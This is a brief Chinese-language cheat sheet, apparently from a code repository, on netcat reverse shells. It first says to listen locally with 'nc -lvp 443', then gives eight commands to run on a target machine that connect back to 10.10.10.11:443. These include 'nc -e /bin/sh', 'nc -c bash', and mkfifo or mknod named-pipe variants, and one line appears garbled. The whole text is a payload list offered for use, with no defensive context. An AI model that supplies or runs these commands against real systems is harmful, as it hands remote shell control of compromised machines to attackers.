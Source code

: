 # Netcat反弹shell

首先在本地监听TCP协议443端口

```
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
nc -e /bin/sh 10.10.10.11 443

```

```bash
nc -e /bin/bash 10.10.10.11 443

```

```bash
nc -c bash 10.10.10.11 443

```

```bash
mknod backpipe p && nc 10.10.10.11 443 0<backpipe | /bin/bash 1>backpipe 

```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.11 443 >/tmp/f

```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.10.11 443 0/tmp/p 2>&1

```

```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 10.10.10.11 443 > f

```

```bash
rm -f x; mknod x p && nc 10.10.10.11 443 0<x | /bin/bash 1>x

```

